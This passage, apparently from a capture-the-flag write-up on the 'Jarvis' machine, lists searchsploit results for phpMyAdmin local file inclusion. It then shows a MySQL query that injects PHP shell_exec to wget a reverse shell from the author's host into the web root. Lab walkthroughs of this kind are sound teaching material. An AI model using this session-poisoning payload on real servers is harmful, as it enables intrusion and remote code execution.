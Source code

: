![](./images/jarvis-phpmyadmin-admin.png)

Notice that `phpmyadmin` was running version `4.8.0` and was vulnerable to LFI.

```none
$ searchsploit phpmyadmin
... CONTENT SNIPPED ...
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                               | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                               | php/webapps/44928.txt
... CONTENT SNIPPED ...
```

The exploits above mention that you can run a MySQL query with PHP code in it to pollute the PHP session identifier.
In my case, I requested that the PHP invoke a shell command that would download a PHP reverse shell onto the web root.

```mysql
select '<?php echo shell_exec("wget -O /var/www/html/r0kit-rsh.php http://10.10.14.19:8000/r0kit-rsh.php"); ?>' 
```

![](./images/jarvis-phpmyadmin-prepare-wget-revshell.png)
